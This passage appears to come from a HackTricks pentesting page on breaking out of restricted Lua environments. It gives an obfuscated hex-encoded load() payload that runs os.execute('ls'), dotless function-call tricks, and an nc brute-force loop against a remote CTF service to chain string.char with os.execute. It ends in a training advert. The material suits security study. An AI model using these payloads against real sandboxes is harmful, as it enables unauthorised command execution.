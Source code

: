 **Eval with command execution:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Some tricks to **call functions of a library without using dots**:

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

Enumerate functions of a library:

```bash
for k,v in pairs(string) do print(k,v) end
```

Note that every time you execute the previous one liner in a **different lua environment the order of the functions change**. Therefore if you need to execute one specific function you can perform a brute force attack loading different lua environments and calling the first function of le library:

```bash
#In this scenario you could BF the victim that is generating a new lua environment 
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Get interactive lua shell**: If you are inside a limited lua shell you can get a new lua shell (and hopefully unlimited) calling:

```bash
debug.debug()
```

## References

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slides: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\